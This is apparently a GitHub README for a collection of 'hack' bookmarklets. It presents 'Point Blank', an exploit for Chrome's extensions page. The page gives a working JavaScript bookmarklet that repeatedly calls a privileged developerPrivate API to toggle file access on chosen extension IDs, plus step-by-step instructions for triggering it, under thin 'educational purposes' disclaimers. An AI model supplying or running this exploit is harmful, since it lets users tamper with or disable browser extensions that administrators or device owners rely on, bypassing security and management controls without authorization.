 Hey, welcome to the HackCollection. Here I enter in my hacks.
ALL MY HACKS ARE BOOKMARKLETS!
I do not condone hacking, this is for educational purposes.
This is all subject to change. Feel free to make issues and I will be sure to add the updated hacks.

If you have any issues please let me know.


HOW TO USE

 Once you have found a hack you like, you are to double click it and drag it to your Bookmark Bar. once you are done, just go to said site and click the bookmark.


CREDIT GOES TO hostedposted, AgrTheDev, milantje200 AND 3kh0
Point Blank is an exploit that allows you to run bookmarklets on privilaged pages, sutch as the chrome extentions page. This exploit was also found by Bypassi, you can read more about how he discovered this exploit You can either use the prompt or the gui the prompt is below 1. Bookmark this code:
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
And the gui is in launcher.js 2. Navigate to chrome://extensions 3. Click on a extension that YOU installed from the Chrome Web Store > Details 4. In the URL bar, copy the string of letters and numbers after the /?id= 5. Click "View in Chrome Web Store" and spam the excape key. If it loads into chrome webstore try again, if it is a blank screen click the bookmarklet 5. Paste the id of the extension into the prompt or input box seperated by commas. If you close the tab, the exploit will stop working.

Please use this only when you have permisson, I (cj-hacks) do not condone the use of this exploit for illegal purposes!
(speech made by 3kh0)
For some reason, it says edited last year. it means BEFORE 2023 not 12 months ago.

